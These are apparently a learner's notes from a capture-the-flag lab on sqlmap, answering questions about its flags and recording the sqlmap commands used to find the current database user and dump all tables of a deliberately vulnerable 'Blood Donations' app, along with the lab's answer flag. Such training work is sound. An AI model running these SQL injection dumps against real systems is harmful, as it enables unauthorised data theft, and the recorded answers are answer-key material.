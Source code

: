 _Which flag allows you to dump all the database table entries?

**--dump-all**

_Which flag will give you an interactive SQL Shell prompt?

**--sql-shell**

_You know the current db type is 'MYSQL'. Which flag allows you to enumerate only MySQL databases?

**--dbms=mysql**

---

Deploy the machine attached to this task, then navigate to `10.10.117.116` _(this machine can take up to 3 minutes to boot)_

**Task:** 

We have deployed an application to collect 'Blood Donations'. The request seems to be vulnerable.

Exploit a SQL Injection vulnerability on the vulnerable application to find the flag.  

Answer the questions below:

_What is the name of the interesting directory ?

**blood** 

![[Pasted image 20240710085334.png]]

_Who is the current db user? 

```php
sqlmap -r req.txt -D blood -T blood_db --current-user
```

**root**

_What is the final flag?

```php
sqlmap -r req.txt -D blood -T blood_db --dump-all
```

**thm{sqlm@p_is_L0ve}**

